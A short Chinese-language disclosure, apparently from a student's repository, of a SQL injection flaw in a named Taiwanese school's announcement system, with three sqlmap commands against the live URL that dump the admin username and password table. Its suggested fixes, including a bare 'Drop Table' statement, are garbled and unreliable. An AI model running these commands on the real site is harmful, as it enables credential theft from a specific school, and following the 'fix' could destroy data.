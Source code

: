 # 管理系統可被公告id=注入sql
## 詳情:
隨便以一篇文章網址做為範例:http://www.sggs.hc.edu.tw:8080/news2/view.asp?ID=6843  
可以被使用sqlmap這類的工具直接進行注入，進而取得公告管理員帳號密碼  
示範(以sqlmap指令示範):
```
sqlmap.py -u "http://www.sggs.hc.edu.tw:8080/news2/view.asp?ID=6843" --tables -D maoshe
sqlmap.py -u "http://www.sggs.hc.edu.tw:8080/news2/view.asp?ID=6843" --columns -T admin -D maoshe
sqlmap.py -u "http://www.sggs.hc.edu.tw:8080/news2/view.asp?ID=6843" --dump -C "username,passwd" -T admin -D maoshe
```
接者資料庫內容就被攻擊者一覽無遺了  
![sql](https://raw.githubusercontent.com/William957-web/SGGScyber/main/images/sqlinetion.png)  
這個漏洞事關重大，以下會談即如何防範。  
# 解決方法  
最消極但簡單的方法就是對後端資料加密，但是這樣無法防止資料被查看，可以使網頁保有一定安全性。  
再來，從資料庫本身做防範的話，則是使用sql內建語法做修正:  
```sql
Drop Table
```
可以明確定義那些是管理員才可檢視的內容  
其餘的可參考網路內容(我不太會sql語法QAQ)
